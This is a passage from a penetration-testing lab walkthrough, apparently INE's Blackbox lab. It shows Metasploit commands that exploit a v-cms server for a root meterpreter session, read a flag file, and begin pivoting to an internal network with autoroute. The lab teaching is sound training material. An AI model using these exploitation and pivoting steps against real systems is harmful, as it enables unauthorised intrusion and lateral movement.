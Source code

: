set LHOST 192.62.135.2

check

exploit

getuid

Note: The "check" command quickly verify that all the module settings and target is valid to exploit or not.

![](../media/Blackbox%20lab%20INE_12.png)

We have successfully exploited the v-cms using Metasploit framework and received a meterpreter session with the root privileges.

Step 10: Retrieve the first flag.

Command

ls /root

cat /root/flag.txt

![](../media/Blackbox%20lab%20INE_13.png)

FLAG

4f96a3e848d233d5af337c440e50fe3d

We have successfully exploited the first machine and retrieved the first flag.

Step 11: Check all the available interfaces on the compromised machine

Command

shell

ifconfig

![](../media/Blackbox%20lab%20INE_14.png)

Again, there are two interfaces (excluding loopback interface) present on the machine i.e. eth0 and eth1.

Ping the eth1 IP address from the Kali machine i.e 192.69.228.2

![](../media/Blackbox%20lab%20INE_15.png)

We can't access IP range 192.69.228.0/24 from the Kali machine. To access this network from Kali, we need perform pivoting.

Step 12: Use "autoroute" command to add route to unreachable IP range.

autoroute

This command is used to add meterpreter session specific routes to the Metasploit's routing table. These routes can be used to pivot to the otherwise unreachanble network.

Check help option for "autoroute" command.
